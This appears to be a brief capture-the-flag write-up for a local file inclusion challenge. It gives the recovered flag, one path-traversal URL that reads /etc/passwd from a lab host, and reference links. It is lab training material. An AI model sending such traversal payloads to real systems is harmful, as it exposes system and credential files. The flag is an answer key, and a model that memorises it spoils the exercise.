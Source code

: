 # Local file inclusion

Congratulaton!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0

## Notes

http://192.168.1.34/?page=../../../../../../../etc/passwd

## Info

[owasp](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/01-Information_Gathering/03-Review_Webserver_Metafiles_for_Information_Leakage
[offensive-security](https://www.offensive-security.com/metasploit-unleashed/file-inclusion-vulnerabilities/
[acunetix](https://www.acunetix.com/blog/articles/local-file-inclusion-lfi/#:~:text=An%20attacker%20can%20use%20Local,to%20a%20file%20as%20input.